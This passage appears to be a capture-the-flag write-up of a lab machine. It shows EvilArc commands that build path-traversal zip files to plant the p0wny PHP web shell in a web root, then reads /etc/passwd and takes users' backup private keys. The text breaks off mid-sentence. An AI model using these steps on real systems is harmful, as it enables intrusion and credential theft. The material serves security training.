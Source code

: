 ### Evil Zipper

This page is confusing as it has multiple divs, but keep watching the rotating upload div and you'll see
an option to upload a `.zip` file. It appears that the code will take the zip file and extract it to
an unknown location.

Because this is blind, we need to create several zip files with different depths until we find one that will allow us 
to extract a payload into the /var/www/html path. I decided to go with `p0wny.php` shell, but any simple php
shell would do the trick.

To do this, I used a project called EvilArc

https://github.com/ptoomey3/evilarc

```commandline
python exploit.py p0wny.php --os unix --path var/www/html/ --depth 3 --output evil3.zip

python exploit.py p0wny.php --os unix --path var/www/html/ --depth 4 --output evil4.zip

python exploit.py p0wny.php --os unix --path var/www/html/ --depth 5 --output evil5.zip
```

The appropriate depth in this case is 3. When this is uploaded, `p0wny.php` is extracted and placed into the html 
folder. We now have our foothold!

### Web Shell

You can use p0wnyshell or several other php based shells to start browsing around the filesystem. Get used to it as you’ll be doing a lot of this!

Looking in the `/etc/passwd` and `/home` directories you’ll find 3 users
* eto
* kaneki 
* noro

Eventually you will find an interesting folder here: `/var/backups/backups/`

```commandline
cd /var/backups/backups
kaneki@Aogiri:/var/backups/backups$ ls
Important.pdf  keys  note.txt  sales.xlsx
kaneki@Aogiri:/var/backups/backups$ cat note.txt
The files from our remote server Ethereal will be saved here. I'll keep updating it overtime, so keep checking.
kaneki@Aogiri:/var/backups/backups$ ls keys
eto.backup  kaneki.backup  noro.backup
```

Well looky here! And now we have 3 private keys :)

Let’s copy these bad boys to your local box. I named them kaneki.key, noro.key and eto.key. Don’t forget to chmod 600 each of them before use. Noro 
